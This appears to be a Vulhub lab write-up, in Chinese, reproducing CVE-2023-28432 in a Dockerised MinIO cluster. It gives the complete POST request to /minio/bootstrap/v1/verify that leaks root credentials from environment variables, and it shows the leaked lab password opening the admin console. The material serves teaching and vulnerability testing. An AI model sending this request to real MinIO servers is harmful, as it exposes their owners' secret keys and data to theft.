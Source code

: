 # MinIO集群模式信息泄露漏洞 CVE-2023-28432

## 漏洞描述

MinIO是一个开源对象存储系统。

在其`RELEASE.2023-03-20T20-16-18Z`版本（不含）以前，集群模式部署下存在一处信息泄露漏洞，攻击者可以通过发送一个POST数据包获取进程所有的环境变量，其中就包含账号密码`MINIO_SECRET_KEY`和`MINIO_ROOT_PASSWORD`。

参考链接：

- https://github.com/minio/minio/security/advisories/GHSA-6xvq-wj2x-3h3q
- https://mp.weixin.qq.com/s/GNhQLuzD8up3VcBRIinmgQ

## 环境搭建

Vulhub执行如下命令启动一个MinIO集群，其中包含3个以集群模式运行的服务：

```
docker-compose up -d
```

集群启动后，访问`http://your-ip:9001`可以查看Web管理页面，访问`http://your-ip:9000`是API服务。

![image-20230504102151673](images/image-20230504102151673.png)

## 漏洞复现

这个漏洞存在于API节点`http://your-ip:9000/minio/bootstrap/v1/verify`上，发送如下数据包即可查看泄露的环境变量：

```
POST /minio/bootstrap/v1/verify HTTP/1.1
Host: your-ip:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

![image-20230504102419760](images/image-20230504102419760.png)

可见，其中包含`MINIO_ROOT_USER (accessKey)`和`MINIO_ROOT_PASSWORD (secretKey)`。使用这个账号密码，即可成功登录管理后台：

```
MINIO_ROOT_USER		minioadmin
MINIO_ROOT_PASSWORD	minioadmin-vulhub
```

![image-20230504102729716](images/image-20230504102729716.png)